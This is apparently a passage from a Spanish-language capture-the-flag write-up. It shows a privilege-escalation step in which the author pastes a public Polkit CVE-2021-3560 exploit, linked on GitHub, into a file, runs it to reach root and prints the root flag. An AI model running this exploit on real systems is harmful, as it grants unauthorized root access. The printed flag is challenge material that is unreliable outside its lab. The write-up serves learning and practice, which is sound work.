 Buscando en internet nos encontramos con este exploit para explotar esta vulnerabilidad https://github.com/Almorabea/Polkit-exploit/blob/main/CVE-2021-3560.py

Verificamos nuestro usuario:
```
id
uid=1001(thugger) gid=1001(thugger) groups=1001(thugger)
```

No nos dejo descargar el exploit por curl y por wget por lo que creamos un archivo y pegamos el código usando "nano":
```
touch CVE-2021-3560.py
```

```
nano CVE-2021-3560.py
```

Y ejecutamos el script:
```
python3 CVE-2021-3560.py
```
![root](img/root.png)

Vemos que funciono:
```
id
uid=0(root) gid=0(root) groups=0(root)
```

Y ya podemos ver la flag del root:
```
cat /root/root.txt
```

FLAG: 78CE377EF7F10FF0EDCA63DD60EE63B8
